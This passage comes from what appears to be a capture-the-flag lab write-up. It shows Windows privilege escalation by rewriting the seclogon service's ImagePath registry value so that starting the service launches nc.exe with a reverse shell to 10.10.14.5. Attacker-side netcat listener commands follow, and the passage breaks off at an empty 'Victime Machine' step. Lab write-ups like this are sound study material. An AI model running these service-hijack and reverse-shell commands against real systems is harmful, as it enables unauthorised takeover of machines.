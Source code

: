 With this **Privilege** or **misconfiguration** I can exploit a vulnerability in the **seclogon service** that would allow me to **Escalate Privileges**. I only need to modify the service registry, and taking advantage of the fact that I already have `nc.exe` available on the victim machine, I only need to modify the **ImagePath** value to replace the path of the executable used to start the service with the `nc.exe`. I start the service but I do not succeed in catching the incoming **Reverse Shell** with `nc` on port **445**, I think it is because I'm in a **PowerShell** shell, so I will return to the **CMD** shell and perform all the steps again (<ins>unfortunately I had to reset the box</ins>). This time I do succeed in getting the **Reverse Shell** and my **Escalate Privileges goal** as well as accessing the contents of the last flag. Machine pwned.

> The **"seclogon"** service in **Windows**, also known as **Secondary Logon**, allows users to run processes under different security credentials. This is often used to **elevate privileges**, such as running an application as an **administrator** while logged in as a **standard** user. While not inherently malicious, disabling it can restrict the ability to run programs with elevated privileges.

> **Victime Machine**:

```cmd
sc query seclogon
reg query "HKLM\system\currentcontrolset\services\seclogon"

dir C:\Windows\System32\spool\drivers\color

reg add "HKLM\system\currentcontrolset\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.5 443" /f
reg query "HKLM\system\currentcontrolset\services\seclogon"
```

> **Attacker Machine**:

```bash
rlwrap -cAr nc -nlvp 445
```

> **Victime Machine**:

```cmd
sc start seclogon

exit
sc query seclogon
# Started, I must reset box :(

sc query seclogon
reg add "HKLM\system\currentcontrolset\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.5 449" /f
reg query "HKLM\system\currentcontrolset\services\seclogon"
```

> **Attacker Machine**:

```bash
rlwrap -cAr nc -nlvp 449
```

> **Victime Machine**:
